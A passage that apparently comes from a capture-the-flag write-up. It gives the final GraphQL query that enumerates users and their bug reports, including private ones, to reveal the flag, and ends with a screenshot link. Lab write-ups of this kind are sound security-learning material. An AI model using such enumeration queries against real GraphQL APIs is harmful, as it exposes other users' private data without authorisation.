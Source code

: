 This information builds the final query that reveals the flag. <br>

```
query{
  user {
    edges {
      node {
        id
        username
        bugs {
          pageInfo {
            startCursor
            endCursor
          }
          edges {
            cursor
            node {
              id
              reporterId
              text
              private
              reporter {
                id
              }
            }
          }
        }
      }
    }
  }
}
```

<img width="1680" height="781" alt="image" src="https://github.com/user-attachments/assets/4e6a76b9-4cb5-48cd-97df-0fe6904997a2" />

 
  
